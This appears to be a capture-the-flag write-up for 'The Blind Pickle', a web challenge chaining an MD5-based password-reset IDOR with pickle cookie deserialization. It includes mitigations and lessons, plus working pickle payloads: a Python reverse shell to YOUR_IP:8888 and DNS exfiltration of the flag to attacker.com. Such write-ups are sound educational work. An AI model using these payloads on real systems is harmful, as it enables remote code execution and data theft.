

---

## Understanding the Vulnerabilities

### Vulnerability 1: IDOR in Password Reset

**How it works:**

1. Password reset tokens are generated as `md5(user_id)`
2. User IDs are sequential integers starting from 1
3. MD5 is deterministic and has no salt
4. Attacker can calculate token for any user_id

**The vulnerable code:**
```python
def token_for_id(user_id: int) -> str:
    # Intentionally weak and unsalted to keep challenge solvable
    return hashlib.md5(str(user_id).encode()).hexdigest()
```

**Impact:**
- Any user can reset any other user's password
- No authentication required for the reset
- Direct privilege escalation to admin

### Vulnerability 2: Insecure Pickle Deserialization

**How it works:**

1. Admin panel sets an `adminprefs` cookie containing pickled data
2. Every request to `/admin` deserializes this cookie
3. Pickle's `__reduce__` method allows arbitrary code execution
4. Attacker controls the cookie contents

**The vulnerable code:**
```python
if 'adminprefs' in request.cookies:
    try:
        b64 = request.cookies.get('adminprefs')
        _obj = pickle.loads(base64.b64decode(b64))  # RCE here!
    except Exception:
        pass
```

**Impact:**
- Remote Code Execution (RCE) as the web server user
- In this case, web server runs as root in Docker
- Complete system compromise

**Why pickle is dangerous:**

When Python unpickles an object, it can execute arbitrary code through the `__reduce__` method:

```python
class Exploit:
    def __reduce__(self):
        # This method is called during unpickling
        # It returns (callable, arguments)
        # Python will call: callable(*arguments)
        return (os.system, ('malicious command',))
```

---

## Mitigation Strategies

### For IDOR Vulnerability

**❌ Bad (Current):**
```python
def token_for_id(user_id: int) -> str:
    return hashlib.md5(str(user_id).encode()).hexdigest()
```

**✅ Good:**
```python
import secrets
import hmac

SECRET_KEY = os.environ.get('SECRET_KEY')

def token_for_id(user_id: int) -> str:
    # Use HMAC with secret key
    token = secrets.token_urlsafe(32)
    # Store token in database with expiration
    db.store_reset_token(user_id, token, expires=datetime.now() + timedelta(hours=1))
    return token

def verify_token(token: str, user_id: int) -> bool:
    stored = db.get_reset_token(token)
    if not stored:
        return False
    if stored['expires'] < datetime.now():
        return False
    if stored['user_id'] != user_id:
        return False
    return True
```

**✅ Better:**
```python
# Use cryptographically signed tokens
from itsdangerous import URLSafeTimedSerializer

serializer = URLSafeTimedSerializer(SECRET_KEY)

def generate_reset_token(user_id: int) -> str:
    return serializer.dumps({'user_id': user_id})

def verify_reset_token(token: str, max_age=3600):
    try:
        data = serializer.loads(token, max_age=max_age)
        return data['user_id']
    except:
        return None
```

### For Pickle Deserialization

**❌ Bad (Current):**
```python
if 'adminprefs' in request.cookies:
    _obj = pickle.loads(base64.b64decode(b64))
```

**✅ Good:**
```python
import json

# Use JSON instead of pickle for simple data
if 'adminprefs' in request.cookies:
    try:
        prefs = json.loads(request.cookies.get('adminprefs'))
        # Validate the data structure
        if isinstance(prefs, dict) and 'target' in prefs:
            target = prefs['target']
    except:
        pass
```

**✅ Better:**
```python
# Store preferences server-side, reference by ID
if 'adminprefs_id' in request.cookies:
    prefs_id = request.cookies.get('adminprefs_id')
    prefs = db.get_admin_prefs(session['user_id'], prefs_id)
```

**✅ Best:**
```python
# If you MUST use pickle, use HMAC to verify integrity
import hmac

def serialize_safe(obj):
    data = pickle.dumps(obj)
    mac = hmac.new(SECRET_KEY.encode(), data, 'sha256').digest()
    return base64.b64encode(mac + data).decode()

def deserialize_safe(b64_data):
    raw = base64.b64decode(b64_data)
    mac = raw[:32]
    data = raw[32:]
    expected_mac = hmac.new(SECRET_KEY.encode(), data, 'sha256').digest()
    if not hmac.compare_digest(mac, expected_mac):
        raise ValueError("Invalid MAC")
    return pickle.loads(data)
```

### General Security Practices

1. **Never trust user input** - All cookies, headers, and form data are user-controlled
2. **Use signed sessions** - Flask's default session already does this, don't use pickle
3. **Implement proper password reset** - Use cryptographically secure tokens with expiration
4. **Principle of least privilege** - Web server shouldn't run as root
5. **Input validation** - Whitelist allowed values, don't just sanitize
6. **Rate limiting** - Prevent brute force attacks on tokens
7. **Logging and monitoring** - Detect suspicious password reset attempts

---

## Key Lessons

### For Developers

- ❌ **Never use pickle with untrusted data** - It's equivalent to `eval()` for objects
- ❌ **Never use MD5 for security** - It's fast to brute force and has no salt
- ❌ **Never trust client-side data** - Cookies can be modified by attackers
- ✅ **Use proper token generation** - Cryptographically secure random tokens
- ✅ **Use JSON for simple data** - It's safer than pickle for serialization
- ✅ **Implement proper authentication** - Verify identity before allowing password reset
- ✅ **Run containers with least privilege** - Don't run as root

### For Penetration Testers

- 🔍 **Look for weak token generation** - MD5, SHA1 of predictable values
- 🔍 **Test password reset flows** - IDOR vulnerabilities are common
- 🔍 **Check for insecure deserialization** - Pickle, YAML, XML, Java serialization
- 🔍 **Analyze session cookies** - Decode and understand their structure
- 🔍 **Chain vulnerabilities** - IDOR alone might not be enough, look for the next step
- 🔍 **Read source code when available** - It reveals the exact exploitation path
- 🔍 **Test cookie manipulation** - Try injecting malicious serialized objects

---

## Alternative Exploitation Methods

### Method 1: Direct Command Execution (No Shell)

Instead of a reverse shell, execute commands directly and view output:

```python
class Exploit:
    def __reduce__(self):
        import os
        return (os.system, ('cat /flag.txt > /tmp/flag && cat /tmp/flag',))
```

Then read the output from the admin page response.

### Method 2: Python Reverse Shell

More reliable than bash in some environments:

```python
class Exploit:
    def __reduce__(self):
        import os
        cmd = 'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])\''
        return (os.system, (cmd,))
```

### Method 3: Exfiltration via DNS

For restricted networks:

```python
class Exploit:
    def __reduce__(self):
        import os
        cmd = 'flag=$(cat /flag.txt | base64); nslookup $flag.attacker.com'
        return (os.system, (cmd,))
```

Set up a DNS server to capture the flag.

### Method 4: Exploiting Without Admin (Hypothetical)

If the admin endpoint had an authentication bypass or if another endpoint also deserialized pickles, you could exploit without the IDOR step.

---

## Tools Used

- **Burp Suite Community** - HTTP request interception and manipulation
- **Python 3** - Exploit development and token calculation
- **Netcat** - Reverse shell listener
- **Hashlib** - MD5 calculation for IDOR
- **Pickle** - Crafting malicious payloads

---

## Timeline

| Time | Action |
|------|--------|
| T+00:00 | Initial recon, created test account |
| T+00:01 | Analyzed application functionality and endpoints |
| T+00:02 | Obtained source code, identified IDOR vulnerability |
| T+00:03 | Calculated admin token: md5(1) |
| T+00:04 | Successfully reset admin password via IDOR |
| T+00:05 | Logged in as admin, accessed admin panel |
| T+00:06 | Identified pickle deserialization vulnerability |
| T+00:08 | Crafted malicious pickle payload with reverse shell |
| T+00:09 | Started netcat listener |
| T+00:11 | Sent payload, established reverse shell as root |
| T+00:13 | Located and captured flag |

**Total Time:** ~13 minutes

---

## References

- **OWASP Insecure Deserialization**: https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization
- **Python Pickle Security**: https://docs.python.org/3/library/pickle.html#module-pickle
- **IDOR Explanation**: https://portswigger.net/web-security/access-control/idor
- **Reverse Shell Cheat Sheet**: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- **GTFOBins**: https://gtfobins.github.io/

---

## Conclusion

"The Blind Pickle" was an excellent challenge demonstrating a realistic attack chain combining multiple vulnerabilities. The IDOR vulnerability allowed privilege escalation to admin, while the pickle deserialization provided remote code execution.

### Key Takeaways:

- **Never use pickle with untrusted data** - It's inherently unsafe
- **Weak token generation enables IDOR** - Use cryptographically secure tokens
- **Chaining vulnerabilities is powerful** - Neither alone would work
- **Source code review is invaluable** - It reveals exact exploitation paths
- **Defense in depth matters** - Multiple security layers prevent full compromise

The challenge name "Blind Pickle" is fitting - the pickle vulnerability is "blind" in that we don't see direct output from our payload execution, but we can still achieve RCE through callbacks like reverse shells.

Thanks to 0xmshal for creating this educational challenge that demonstrates real-world web application vulnerabilities!

**Flag:** `flag{i_love_pickles_even_when_they_r_blind}`

**Author:** 0xmshal  
**Date:** November 2025  
**Challenge:** The Blind Pickle  
**Category:** Web Security / Insecure Deserialization / IDOR
